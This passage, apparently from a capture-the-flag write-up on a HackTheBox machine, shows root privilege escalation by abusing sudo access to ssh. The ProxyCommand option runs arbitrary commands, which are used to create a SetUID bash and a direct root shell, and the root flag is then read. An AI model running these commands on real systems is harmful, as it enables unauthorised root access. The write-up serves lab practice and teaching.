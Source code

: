 There’s a GTFObins page for `ssh`, but it’s more fun to look at the [man
page](https://man.openbsd.org/ssh_config#ProxyCommand). SSH has an option
called `ProxyCommand`. I actually use this in real life to connect to SSH
servers through a socks proxy. I have an SSH config file that looks like this:

![image-20240227131623646](../img/image-20240227131623646.png)

When I run `ssh [hostname]`, it runs `nc` connecting to `localhost:1080` as a
SOCKS5 (`-X 5`) proxy, and then my SSH connection can travel over that proxy.

The `ProxyCommand` is run on the client before making the connection, so I can
abuse that to do arbitrary things as the user who is running the `ssh`
command. In this case, that’s root because of `sudo`. I’ll show touching a
file:

    
    
    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='touch /tmp/0xdf' x
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ ls -l /tmp/0xdf 
    -rw-r--r-- 1 root root 0 Feb 27 18:19 /tmp/0xdf
    

It works. I can use this to make a SetUID `bash`:

    
    
    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='cp /bin/bash /tmp/0xdf' localhost
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='chmod 6777 /tmp/0xdf' localhost
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1396520 Feb 27 18:20 /tmp/0xdf
    

Now running it (with `-p` to not drop privs) gives a root shell:

    
    
    josh@cozyhosting:~$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1003(josh) gid=1003(josh) euid=0(root) egid=0(root) groups=0(root),1003(josh)
    

GTFObins gives a shorter path, using redirection to get the shell immediately
from the `ssh` process:

    
    
    josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    # id
    uid=0(root) gid=0(root) groups=0(root)
    

Either way, I can grab the flag:

    
    
    0xdf-5.1# cat /root/root.txt
    01ebd55a************************
    

[](/2024/03/02/htb-cozyhosting.html)

